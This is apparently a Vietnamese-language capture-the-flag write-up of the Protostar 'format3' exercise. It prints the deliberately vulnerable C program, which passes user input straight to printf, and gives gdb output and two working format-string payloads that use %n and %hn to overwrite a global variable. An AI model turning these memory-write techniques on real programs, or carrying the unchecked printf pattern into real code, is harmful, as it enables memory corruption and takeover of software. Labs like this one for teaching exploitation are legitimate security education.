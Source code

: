 # FORMAT THREE

## About

This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

This level is at /opt/protostar/bin/format3

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT THREE` tiếp tục là một thử thách được nâng cao từ `FORMAT TWO`, chúng ta vẫn cần ghi một giá trị được kiểm soát vào vị trí ta mong muốn - ở đây vẫn là biến toàn cục `target` để nhận được `"you have modified the target :)"` nhưng thay vì là 1 số decimal thì giá trị cần ghi là `0x01025544`.

Khá phức tạp, ta có `0x01025544 = 16930116` là một giá trị decimal thực sự lớn và nếu vẫn tiếp tục dùng cách ghi đè của `FORMAT TWO` thì ta sẽ không nhận được điều mình cần là `target == 0x01025544` vì số lượng ký tự ghi vào quá lớn.

Thay vào đó ta sẽ ghi 4 lần vào 4 vị trí được chia nhỏ ra của địa chỉ biến `target` và với các giá trị là `01` `02` `55` `44`.

Địa chỉ `target = 0x80496f4`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format3
Reading symbols from /opt/protostar/bin/format3...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x80496f4
(gdb)
```

Thực hiện quét stack ta có chuỗi đầu vào sẽ được định dạng từ parameter thứ 12.

Tôi sẽ không trình bày chi tiết cách tôi ghi từng byte, thay vào đó bạn có thể đọc từ cuốn sách tôi để ở `Documents`.

```
                 0      1      2
hex     | \x44 | \x55 | \x02 | \x01 |
decimal |  68  |  85  |  258 |  513 |
Đã có   |  16  |  68  |  85  |  258 |
Cần     |  52  |  17  |  173 |  255 |
para    |  12  |  13  |  14  |  15  |
Addr:
0x80496xx| f4  |  f5  |  f6  |  f7  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n" + "%255x" + "%15$n"' | ./format3
                                                   0         bffffac0                                                                                                                                                                     b7fd7ff4                                                                                                                                                                                                                                                              0
you have modified the target :)
```

Cách điền `hn-hn`, bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%" + str(0x5544 - 8) + "x%12$hn" + "%" + str(0x10102 - 0x5544) + "x%13$hn"' | ./format3
```


## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>

Bạn có thể đọc phần Format String của cuốn này:
<https://whitehat.vn/attachments/nghe-thuat-tan-dung-loi-phan-mem-pdf.1430/>



